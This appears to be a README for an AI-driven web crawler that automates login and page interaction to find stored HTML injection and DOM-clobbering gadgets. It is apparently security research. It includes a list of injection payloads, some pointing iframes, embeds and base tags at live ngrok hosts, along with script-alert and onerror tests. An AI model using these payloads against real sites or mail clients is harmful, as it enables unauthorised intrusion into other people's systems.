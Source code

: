 # LLM-Crawler

This folder contains the crawler that automated by AI (LLM and CV). That said, the crawling workflow (e.g. which and how to interact with elements) is determined by AI models at runtime using the underlying wrapped browser driver interfaces, by given the overall task goal. 

The LLM-Crawler aims to address challenges that are difficult for traditional crawlers, including:

1/ Auto-login

Traditional crawlers struggle with logging into portals that protect critical assets, which are often susceptible to stored HTML injection vulnerabilities. The LLM-Crawler is designed to handle complex interactions required for accessing, especially for unseen webpages.

2/ Dynamic generated HTML elements

Identifying contenteditable HTML elements can be challenging when they are dynamically generated and require user interactions, such as those in chat boxes. The LLM-Crawler can interact with these elements in real time.

3/ Find all the stored html injection

The LLM-Crawler can navigate through websites to determine if HTML injections persist across pages, such as checking if injected HTML in emails remains visible in the 'sent' folder of an email client.

4/ Gadget discovery

Gadgets finding requires comprehensive page interaction to trigger the javascript code as much as possible.


## HTML Injection

### Contenteditable Elements

+ Step1. Find all the contenteditable elements in the page.
+ Step2. Perform the Copy&Paste action on the found contenteditable elements.
+ Step3. Perform submittion (render) or navigation action to check whether the html injection can be stored.

### HTML Injection in general

+ Step1. Find all the user interactable elements in the page.
+ Step2. Input the different payloads and check whether it will be rendered as html.
  + Step2-1: test raw html (e.g. `<h1>html</h1>`) & log;
  
  + Step2-2: test markups (e.g. markup language for different template engines) & log;
+ Step3. Check whether the content will be escaped, removed or rendered.
+ Step4. Perform submittion, render or navigation action to check whether the html injection can be stored.

<image onerror=debugger; src=attack>
<image id="" name="attack"; src=attack>
<image name="attack"; src=attack>
<img src=attack>

<a id="attack" href="b"></a>
<customtag id="attack"></customtag>
<article id="attack"></article>
<iframe name="currentScript" src="https://644dcb5e93a6.ngrok.app"></iframe>
<base id="attack"></base>
<aside id="attack"></aside>
<audio id="attack"></audio>
<b id="attack"></b>

<a id="tinymce"></a><a id="tinymce" name="base" href="https://1b4e490f3251.ngrok.app/"></a>
<embed name="currentScript" src="https://644dcb5e93a6.ngrok.app"></embed>
<img name="attack" src="https://xxx.xxx.xxx/"></img>
<object id="attack" data="https://xxx.xxx.xxx/"></object>
<form name="attack"></form> <form name="attack" id="src"></form>
<form name="attack"><img name="src" src="https://xxx.xxx.xxx/"></form>
<form name="attack"><output name="src"> https://xxx.xxx.xxx/ </output></form>
<object id=attack><img id="attack" name="src" src="https://xxx.xxx.xxx/" /></object>

<script>alert(2); console.trace();</script>
<script>console.trace(); alert(3)</script>
<img src=x onerror=alert(4);>

<a id="attack"></a><a id="attack" name="b" href="c"></a>
<form id="attack"><input id="b"/> </form>

<form id="attack"><button id="b"/> </button> </form>

<form id="attack"><img id="b" name="attack" src="c" /> </form>

<form id="attack"> <form id="attack" name="b"> <input name="c" value="d"> </form>

<iframe name=window srcdoc=" <iframe name=attack srcdoc=&quot; <iframe name=b srcdoc=&amp;quot; <a id='c' href='d'></a> &amp;quot;></iframe> &quot;></iframe> " src="https://xxx.xxx.xxx/"></iframe>

<form name="attack"><textarea name="b" /> </textarea> </form> 
## TODO: Pipeline for finding html injection using llm-crawler 
@Ishmeals

## Limitaions

### 1/ Popups 

Sometimes, it fails to reconginze the html elements as a close button for the popup, especially these elements like `<span>` which has been decorated with `onclick` event. In the current version, the skyvern will remove the `class` attributes of `<span>` element so the llm cannot tell the corrent element to interact with.

In zoho's case:

```
<span class="zb-close-btn zd-popup-sprite"></span>
```

But, when it passed to the llm:

```
<span id=237></span>
```

### 2/ New window tab

It cannot handle the a link which shown on another window tab. This is usually because of the target=_blank  or the onclick event has been set to use window.open. We can write a script to modify all the link in the page first, for example,

```
const puppeteer = require('puppeteer');

(async () => {
    // Launch the browser
    const browser = await puppeteer.launch({ headless: false });
    const page = await browser.newPage();

    // Navigate to the desired page
    await page.goto('https://www.example.com');

    // Modify the link's target attribute and click on it
    await page.evaluate(() => {
        // Find the link element (you can use a more specific selector if needed)
        const link = document.querySelector('a[target="_blank"]');
        if (link) {
            // Change the target attribute to _self to stay on the same page
            link.setAttribute('target', '_self');
            // Click the link
            link.click();
        }
    });

    // Additional actions can be performed here

    // Close the browser
    // await browser.close();
})();
```

### 3/ Too many interactable elements

Too many interactable elements and exceed the maximum tokens, can we deploy any heuristic strategy to filter out some of them first?

### 4/ Too slow.

We can start more docker to run it. This is fine as long as they can find the html injection vulnerability.


## Improvements

### Breadth-first Search

1/ How to determine a new page?

A url for most of pages. But how about the signle-page elements? We also want to find the elements within the dynamic generated DOM contents, that said, whenever a new content added, we need to perform Step1. again.

2/ Webpage snapshot?

We may want to perform certain actions to test whether the input will be rendered or the html injection will be stored. After the actions, we want to back the state that starts that current test and test another elements.
